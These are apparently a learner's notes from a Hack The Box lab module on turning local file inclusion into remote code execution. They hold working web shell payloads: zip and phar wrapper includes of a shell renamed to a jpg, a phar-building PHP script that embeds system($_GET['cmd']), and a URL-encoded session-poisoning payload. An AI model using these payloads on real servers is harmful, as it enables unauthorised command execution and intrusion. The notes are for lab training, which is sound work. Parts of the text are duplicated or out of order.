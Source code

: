 ```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar Upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
```shell-session
alakin2504@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```


our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents:

## PHP Session Poisoning
As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`.

![Shipping containers and cranes at a port with browser console displaying PHP session information.](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
Now, let's include the session file once again to look at the contents:

   
![Shipping containers and cranes at a port with PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the `&cmd=id` to execute a commands:

  
![Shipping containers and cranes at a port with PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

# Server Log Poisoning (RCE PAYLOAD MUST BE 'cmd' AND  NOT "cmd")
Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs. `Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups). However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users.
